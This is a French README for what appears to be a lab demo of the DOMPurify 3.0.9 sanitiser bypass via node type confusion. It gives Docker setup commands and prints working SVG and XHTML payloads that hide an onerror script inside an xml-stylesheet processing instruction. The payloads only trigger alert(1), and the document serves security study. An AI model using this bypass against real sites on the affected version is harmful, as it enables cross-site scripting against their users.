 # Dompurify 3.0.9 bypass - Node type confusion

## Lien vers l'article complet

> Un article reprenant le travail de slonser concernant le bypass de Dompurify dans sa version 3.0.9.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion)

## Installation

```
docker build -t dompurify-3.0.9-bypass .
docker run -p 3000:3000 dompurify-3.0.9-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG

Le fichier SVG suivant permet l'exploitation du bypass :
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.9.</p>
    <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</body>
</html>
```

